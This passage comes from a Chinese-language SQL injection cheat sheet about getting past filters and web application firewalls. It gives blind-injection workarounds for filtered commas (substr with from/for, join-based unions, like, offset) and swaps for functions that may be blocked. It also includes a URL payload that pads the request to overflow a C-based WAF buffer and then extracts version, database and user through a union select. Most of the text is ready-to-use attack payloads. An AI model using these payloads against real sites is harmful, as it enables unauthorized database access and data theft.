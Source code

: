 #### 逗号

（1）只能盲注，但逗号被过滤的情况，可以使用from pos for len，其中pos代表从第pos个开始读取len长度的字串

常规写法：
    
    select substr("string",1,3)
    
过滤了逗号，可这样写

    select substr("string" from 1 for 3)
    
sql盲注逗号被过滤后举例

    select ascii(substr(database() from 1 for 1)) > 110
    
（2）使用join关键字

    select * from users union select * from (select 1)a join (select 2)b join(select 3)c
    
等价于
    
    union select 1,2,3
    
（3）使用like

    select user() like "t%"
    
等价于

    select ascii(substr(user(),1,1))=114
    
（4）使用offset

    select * from users limit 1 offset 2

等价于

    select * from users limit 2,1
    
#### 函数

    sleep() => benchmark()
    ascii() => hex()、bin() 替代之后再使用对应的进制转为string即可
    group_concat => concat_ws()
    substr()、substring()、mid()可以互相取代，取子函数的还有left()、right()
    user() => @@user
    database() => @@database
    ord() => ascii() 这两个函数处理英文是一样的，但处理中文可能会不一致
    
### 缓冲区溢出

对于C语言写的WAF，由于C语言没有缓冲区保护机制，当WAF在处理测试向量时超出了其缓冲长度，就会引发bug从而实现绕过

举例

    ?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
    
示例0xA*1000指0xA后面”A”重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，在某些情况下可能不需要这么长也能溢出

### HTTP参数控制
